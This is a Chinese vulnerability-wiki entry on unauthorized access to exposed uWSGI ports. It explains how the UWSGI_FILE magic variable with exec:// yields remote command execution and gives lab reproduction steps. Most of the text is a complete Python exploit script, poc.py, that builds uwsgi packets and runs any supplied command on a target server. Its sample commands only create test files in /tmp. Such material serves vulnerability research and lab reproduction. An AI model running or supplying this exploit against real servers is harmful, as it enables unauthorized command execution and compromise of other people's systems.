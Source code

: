 uWSGI 未授权访问漏洞
====================

一、漏洞简介
------------

WSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言，通常被用于运行Python
WEB应用。uwsgi除了是应用容器的名称之外，它和Fastcgi之类的一样，也是前端server与后端应用容器之间的一个交流标准。目前nginx，apache也支持uwsgi协议进行代理转发请求。

uWSGI支持通过魔术变量（Magic
Variables）的方式动态配置后端Web应用。如果其端口暴露在外，攻击者可以构造uwsgi数据包，并指定魔术变量`UWSGI_FILE`，运用`exec://`协议执行任意命令。

二、漏洞影响
------------

三、复现过程
------------

使用poc.py，执行命令`python poc.py -u your-ip:8000 -c "touch /tmp/success"`：

![1.png](/Users/aresx/Documents/VulWiki/.resource/uWSGI未授权访问漏洞/media/rId24.png)

执行`docker-compose exec web bash`进入容器，可见`/tmp/success`已经成功执行：

![2.png](/Users/aresx/Documents/VulWiki/.resource/uWSGI未授权访问漏洞/media/rId25.png)

    poc.py
    #!/usr/bin/python
    # coding: utf-8
    ######################
    # Uwsgi RCE Exploit
    ######################
    # Author: wofeiwo@80sec.com
    # Created: 2017-7-18
    # Last modified: 2018-1-30
    # Note: Just for research purpose

    import sys
    import socket
    import argparse
    import requests

    def sz(x):
        s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
        s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
        return s[::-1]


    def pack_uwsgi_vars(var):
        pk = b''
        for k, v in var.items() if hasattr(var, 'items') else var:
            pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
        result = b'\x00' + sz(pk) + b'\x00' + pk
        return result


    def parse_addr(addr, default_port=None):
        port = default_port
        if isinstance(addr, str):
            if addr.isdigit():
                addr, port = '', addr
            elif ':' in addr:
                addr, _, port = addr.partition(':')
        elif isinstance(addr, (list, tuple, set)):
            addr, port = addr
        port = int(port) if port else port
        return (addr or '127.0.0.1', port)


    def get_host_from_url(url):
        if '//' in url:
            url = url.split('//', 1)[1]
        host, _, url = url.partition('/')
        return (host, '/' + url)


    def fetch_data(uri, payload=None, body=None):
        if 'http' not in uri:
            uri = 'http://' + uri
        s = requests.Session()
        # s.headers['UWSGI_FILE'] = payload
        if body:
            import urlparse
            body_d = dict(urlparse.parse_qsl(urlparse.urlsplit(body).path))
            d = s.post(uri, data=body_d)
        else:
            d = s.get(uri)

        return {
            'code': d.status_code,
            'text': d.text,
            'header': d.headers
        }


    def ask_uwsgi(addr_and_port, mode, var, body=''):
        if mode == 'tcp':
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(parse_addr(addr_and_port))
        elif mode == 'unix':
            s = socket.socket(socket.AF_UNIX)
            s.connect(addr_and_port)
        s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
        response = []
        # Actually we dont need the response, it will block if we run any commands.
        # So I comment all the receiving stuff. 
        # while 1:
        #     data = s.recv(4096)
        #     if not data:
        #         break
        #     response.append(data)
        s.close()
        return b''.join(response).decode('utf8')


    def curl(mode, addr_and_port, payload, target_url):
        host, uri = get_host_from_url(target_url)
        path, _, qs = uri.partition('?')
        if mode == 'http':
            return fetch_data(addr_and_port+uri, payload)
        elif mode == 'tcp':
            host = host or parse_addr(addr_and_port)[0]
        else:
            host = addr_and_port
        var = {
            'SERVER_PROTOCOL': 'HTTP/1.1',
            'REQUEST_METHOD': 'GET',
            'PATH_INFO': path,
            'REQUEST_URI': uri,
            'QUERY_STRING': qs,
            'SERVER_NAME': host,
            'HTTP_HOST': host,
            'UWSGI_FILE': payload,
            'SCRIPT_NAME': target_url
        }
        return ask_uwsgi(addr_and_port, mode, var)


    def main(*args):
        desc = """
        This is a uwsgi client & RCE exploit.
        Last modifid at 2018-01-30 by wofeiwo@80sec.com
        """
        elog = "Example：uwsgi_exp.py -u 1.2.3.4:5000 -c \"echo 111>/tmp/abc\""
        
        parser = argparse.ArgumentParser(description=desc, epilog=elog)

        parser.add_argument('-m', '--mode', nargs='?', default='tcp',
                            help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
                            dest='mode', choices=['http', 'tcp', 'unix'])

        parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
                            help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
                            dest='uwsgi_addr')

        parser.add_argument('-c', '--command', nargs='?', required=True,
                            help='Command: The exploit command you want to execute, must have this.',
                            dest='command')

        if len(sys.argv) < 2:
            parser.print_help()
            return
        args = parser.parse_args()
        if args.mode.lower() == "http":
            print("[-]Currently only tcp/unix method is supported in RCE exploit.")
            return
        payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
        print("[*]Sending payload.")
        print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))

    if __name__ == '__main__':
        main()

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/unacc/README.zh-cn.md

